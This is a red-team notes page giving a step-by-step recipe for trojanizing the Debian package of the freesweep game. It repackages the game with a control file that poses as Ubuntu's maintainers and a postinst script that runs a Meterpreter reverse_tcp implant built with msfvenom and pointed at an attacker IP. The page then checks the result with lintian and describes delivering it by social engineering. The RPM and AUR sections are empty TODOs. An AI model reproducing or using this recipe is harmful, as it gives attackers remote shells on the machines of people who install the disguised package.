 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - metasploit-framework
  - linux
---
```

# Trojanized Software Package

> [!TIP]
> While the target will install the backdoored software package with elevated privileges. You can include other vectors such as, elevated persistence.

## 01 - DEB

Create a temporary directory.

```
userware@hackware-os:~$ cd $(mktemp -d)
```

Download a DEB package. We will use `freesweep` as an example.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt download freesweep

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt-get download freesweep
```

Extract the packing to a working directory then create a `DEBIAN` directory to include additional "features".

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ ls
freesweep_1.0.2-1_amd64.deb

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg -x freesweep_1.0.2-1_amd64.deb work

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ mkdir work/DEBIAN
```

> [!IMPORTANT]
> Do not skip this step.
> > [!TIP]
> > To copy the contents in `control` file then execute either `dpkg-deb -I file.deb` or `apt-cache show <package>` as reference.

In the `DEBIAN` directory, create a text file named `control` with the contents.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/control << EOF
Package: freesweep
Architecture: amd64
Version: 1.0.2-1
Priority: optional
Section: universe/games
Origin: Ubuntu
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Original-Maintainer: Debian Games Team <pkg-games-devel@lists.alioth.debian.org>
Description: text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer.  Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
EOF
```

Then create a post-installation script (`postinst`) that will trigger the implant.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/postinst << EOF
#!/bin/sh
sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores & /usr/games/freesweep &
EOF

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ chmod 755 work/DEBIAN/postinst
```

Generate an implant for a reverse connection.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=<attacker_PORT> -f elf -o work/usr/games/freesweep_scores
```

Build the `.deb` package.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg-deb -b work trojanized_freesweep.deb
dpkg-deb: building package 'freesweep' in 'trojanized_freesweep.deb'.
```

Run `lintian` to check if there any problems to the software package. We're only concerned about the post installation script (`postinst`) and the implant (`freesweep_scores`) if there was an error (`E`). For the implant's `statically-linked-binary` error message is safe to ignore. Now the implant is ready to deliver for social engineering.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ lintian -c trojanized_freesweep.deb 
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/README.md]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/changelog.Debian.gz]
E: freesweep: bad-owner-for-doc-file ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
E: freesweep: file-in-etc-not-marked-as-conffile [etc/sweeprc]
E: freesweep: mail-address-loops-or-bounces Maintainer ubuntu-devel-discuss@lists.ubuntu.com
E: freesweep: statically-linked-binary [usr/games/freesweep_scores]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/sweeprc]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [usr/]
E: freesweep: wrong-file-owner-uid-or-gid ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
W: freesweep: elevated-privileges 2755 userware/userware [usr/games/freesweep]
W: freesweep: maintainer-script-ignores-errors [postinst]
W: freesweep: no-manual-page [usr/games/freesweep_scores]
W: freesweep: non-standard-file-perm 0664 != 0644 [usr/games/freesweep_scores]
W: freesweep: undeclared-elf-prerequisites (libc.so.6 libncurses.so.6 libtinfo.so.6) [usr/games/freesweep]
W: freesweep: unknown-section universe/games
```

To execute the implant to retrieve a connection from the shell handler.

```
$ sudo dpkg -i trojanized_freesweep.deb

$ sudo apt install ./trojanized_freesweep.deb
```

## 02 - RPM

TODO: Fill in the steps for the RPM package.

```
$ sudo rpm -Uvh implant.rpm
```

## 03 - AUR

TODO: Fill in the steps for the AUR package.

```

```

---
## References

### Backlinks

- [[Package File Templates]]

### DMCXBlue

- [DMCXBlue: Installer Packages](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1546-event-triggered-execution/installer-packages)

### Metasploit Unleashed

- [Metasploit Unleashed: Binary Linux Trojan](https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/)